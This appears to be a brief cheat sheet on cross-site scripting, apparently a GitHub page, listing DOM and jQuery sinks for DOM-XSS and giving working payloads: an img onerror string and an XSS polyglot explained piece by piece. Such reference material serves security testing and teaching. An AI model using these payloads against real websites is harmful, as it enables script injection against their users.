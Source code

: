`<><img src=1 onerror=alert(1)>`

---

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
someDOMElement.innerHTML
someDOMElement.outerHTML
someDOMElement.insertAdjacentHTML
someDOMElement.onevent
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```

------

**XSS polyglots** : An XSS polyglot can be generally defined as any XSS vector that is executable within various injection contexts in its raw form.

Example and Explain

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

- `jaVasCript:`: A label in ECMAScript; a URI scheme otherwise.
- `/*-/*/*\/*'/*"/**/`: A multi-line comment in ECMAScript; a literal-breaker sequence.
- `(/* */oNcliCk=alert() )`: A tangled execution zone wrapped in invoking parenthesis!
- `//%0D%0A%0d%0a//`: A single-line comment in ECMAScript; a double-CRLF in HTTP response headers.
- `</stYle/</titLe/</teXtarEa/</scRipt/--!>`: A sneaky HTML-tag-breaker sequence.
- `\x3csVg/<sVg/oNloAd=alert()//>\x3e`: An innocuous svg element.

more details : https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

polyglots payloads : https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626

Read more : https://dev.to/caffiendkitten/xss-javascript-polyglots-4i64